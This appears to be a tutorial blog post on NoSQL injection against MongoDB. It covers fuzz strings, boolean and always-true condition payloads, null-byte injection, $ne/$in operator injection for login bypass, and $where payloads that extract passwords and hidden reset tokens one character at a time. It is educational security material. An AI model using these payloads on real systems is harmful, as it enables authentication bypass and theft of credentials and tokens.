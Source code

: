 ```yaml
---
title: "NoSQL Injection Techniques and Exploits"
summary: "Exploring NoSQL injection techniques, including syntax injection and operator abuse. A complete guide for beginners and a refresher."
date: "Dec 20 2024"
draft: false
tags:
  - Web
---
```



### Types
- syntax injection
- operator injection
### NoSQL Syntax Injection

- **Definition:** Similar to SQL injection,  involves breaking the query syntax and exploiting vulnerabilities.

#### Detecting Syntax Injection in MongoDB

1. Test each input by submitting fuzz strings and special characters.

#### Fuzz Strings

```
'"`{ ;$Foo} $Foo \xYZ '%00
```

```
' " \ ; { } ( )
```

#### Testing

**Example:**

`https://insecure-website.com/product/lookup?category=fizzy`

- The server handles the query as:
    
    ```javascript
    this.category == 'fizzy'
    ```
    
- Fuzz the input using the _fuzz strings_ and analyze the response.
    
- Determine which characters (e.g., single or double quotes) impact the query.
    

**Examples:**

```javascript
this.category == '''
this.category == '\''
```

#### Boolean Influence Testing

**False Output:**

```
https://insecure-website.com/product/lookup?category=fizzy'+&&+0+&&+'x
```

- No categories are displayed since the query evaluates to false.

**True Output:**

```
https://insecure-website.com/product/lookup?category=fizzy'+&&+1+&&+'x
```

- The `fizzy` category is displayed, indicating boolean influence.

#### Overriding Existing Conditions

- Use the `||` (OR) operator to override conditions, ensuring the query always returns true:

```
https://insecure-website.com/product/lookup?category=fizzy'||'1'=='1
```

- Server query becomes:

```javascript
this.category == 'fizzy'||'1'=='1'
```

- All categories are displayed.

#### Null Character Injection

- MongoDB may ignore all characters after a null character (`\u0000`).

**Example:**

If the server query is:

```javascript
this.category == 'fizzy' && this.released == 1
```

After injecting a null character:

```javascript
this.category == 'fizzy'\u0000' && this.released == 1
```

- Unreleased objects may be displayed.

---

### Operator Injection

- **Definition:** Abusing NoSQL operators like `$where`, `$ne`, `$in`, and `$regex` to exploit vulnerabilities.

#### Injecting into Query Operators

1. **Example Query:**

```json
{"username":"wiener"}
```

- Queries for username = `wiener`.

**Injection Example:**

```json
{"username":{"$ne":"invalid"}}
```

- Query becomes `username != invalid`, which returns all usernames except `invalid`.

2. Transforming input:

```
username=wiener becomes username[$ne]=invalid
```

3. Complex Query Example:

```json
{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}
```

- Fetches data if the username is one of `admin`, `administrator`, or `superadmin`, and the password is not empty.

#### Steps to Test:

1. Convert the request method from `GET` to `POST`.
2. Change the `Content-Type` header to `application/json`.
3. Add JSON to the message body.
4. Inject query operators into the JSON.

---

### Exfiltrating Data in MongoDB

**Example:**

```
https://insecure-website.com/user/lookup?username=admin
```

Server query:

```json
{"$where":"this.username == 'admin'"}
```

#### Payload Examples:

1. To check if the first character of the password is `a`:

```
admin' && this.password[0] == 'a' || 'a'=='b
```

2. To check if the password contains digits:

```
admin' && this.password.match(/\d/) || 'a'=='b
```

3. To find the password length using binary search:

```
administrator' && this.password.length < 30 || 'a'=='b
```

---

### Extracting Field Names, Lengths, and Values

**Example Query:**

```javascript
db.user.findOne(userInfo)

let userInfo = {
    "_id": "skjfskmjfsdf",
    "username": "carlos",
    "password": {
        "$ne": ""
    },
    "$where": "function(){ return 0;}"
}
```

#### Steps to Extract Information:

1. Check error messages:
    
    - **1:** Account Locked
    - **0:** Invalid
2. Find hidden field names and their lengths:
    

**Example Payloads:**

- Find hidden field name:

```javascript
"$where": "function(){ if(Object.keys(this)[0].match('_id')) return 1; else 0; }"
```

- Find hidden field name length:

```javascript
"$where": "function(){ if(Object.keys(this)[3].length == 1) return 1; else 0; }"
```

- Hidden field name `unlockToken`:

```javascript
"$where": "function(){ if(this.unlockToken.length == 1) return 1; else 0; }"
```

3. Determine value length and content:

- Length is 16:

```javascript
"$where": "function(){ if(this.unlockToken.length == 16) return 1; else 0; }"
```

- Check if value starts with `a`:

```javascript
"$where": "function(){ if(this.unlockToken.match(/^a/)) return 1; else 0; }"
```

- Check if value contains digits:

```javascript
"$where": "function(){ if(this.unlockToken.match(/\\d/)) return 1; else 0; }"
```

---
